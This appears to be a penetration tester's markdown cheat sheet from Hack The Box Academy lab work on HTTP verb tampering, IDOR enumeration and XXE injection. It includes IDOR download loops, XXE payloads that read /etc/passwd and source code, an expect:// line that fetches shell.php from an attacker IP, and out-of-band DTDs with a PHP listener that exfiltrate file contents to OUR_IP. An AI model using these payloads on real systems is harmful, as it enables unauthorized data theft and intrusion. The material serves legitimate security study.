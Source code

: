 ## HTTP Verb Tampering
>**ℹ️ Info:**
>
>Try using different methods to bypass filters or authentications.


>⚠️ **PAY ATTENTION:**
>
>Make sure to use the built-in function of BurpSuite to change the HTTP Method.

### HTTP Methods
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

### Prevention
https://academy.hackthebox.com/module/134/section/1177

## IDOR
>**ℹ️ Info:**
>
>Check in URL parameters for ids and similars.
>
>Create new accounts to see the differences in parameters and so on.
>
>Understand how they are hashed or encoded.

### Dirty IDOR Enumeration
```bash
#!/bin/bash

url="http://94.237.57.171:39550"

for i in {1..20}; do
        for link in $(curl -X POST -s -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\.[a-zA-Z0-9]+"); do
                wget -q $url/$link
        done
done
```
### Dirty Encoded IDOR Enumeration
```bash
#!/bin/bash

url='http://94.237.57.171:58847'

for i in {1..20}; do
        for code in $(echo -n $i | base64 -w 0); do
                curl --get $url/download.php --data-urlencode "contract=$code" -soJ  
        done
done
```
>**ℹ️ Info:**
>
>From Base64 to URL encoding.
>
>`-J` forces curl to respect the `Content-Disposition` header and download the file.

### Dirty API IDOR Enumeration
```bash
for i in {1..10}; do curl -s http://94.237.55.96:57427/profile/api.php/profile/$i; done | jq .role
```

### Prevention
https://academy.hackthebox.com/module/134/section/1202

## XXE Injection
>⚠️ **PAY ATTENTION:**
>
>If JSON is provided, try changing the `Content-Type` head to `application/xml`, change the content using this [tool](https://www.convertjson.com/json-to-xml.htm), and test for XXE Injection.

>**ℹ️ Info:**
>a
>Add this after the XML version
>```xml
><!DOCTYPE email [
>	<!ENTITY company "Inlane Freight">
>]>
>```
>Remember to change the tag value to check if one is visible.

### XXE Payloads  

| Payload | Description |
|---------|-------------|
| `<!ENTITY company SYSTEM "file:///etc/passwd">` | Read a file |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read source code |
| `<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">` | Download file from attacker (Only if enabled!) |

## "Advanced" File Disclosure
### CDATA
Create the following file and host a python3 HTTP server:
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```

Actual payload that will go in the XML will be:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
```

To invoke put `&joined;` in the "vulnerable" parameter

### Error Based
First reference a non existent entity like `%nonExistingEntity`, if the page returns an error continue.

Save the following to `xxe.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

This will be the payload:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

### Blind Data Exfiltration
If no information is being returned, blind XXE might be present.

Save the following to `xxe.dtd`:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

This will be the index.php start it with `php -S 0.0.0.0:8000`:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

This will be the payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

### XXE Injector
https://github.com/enjoiz/XXEinjector

Copy the BurpSuite request like so:
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Then run the following:
```bash
XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=xxe.req --path=/etc/passwd --oob=http --phpfilter
```

The data will be in the logs folder.

### XXE Prevention
https://academy.hackthebox.com/module/134/section/1218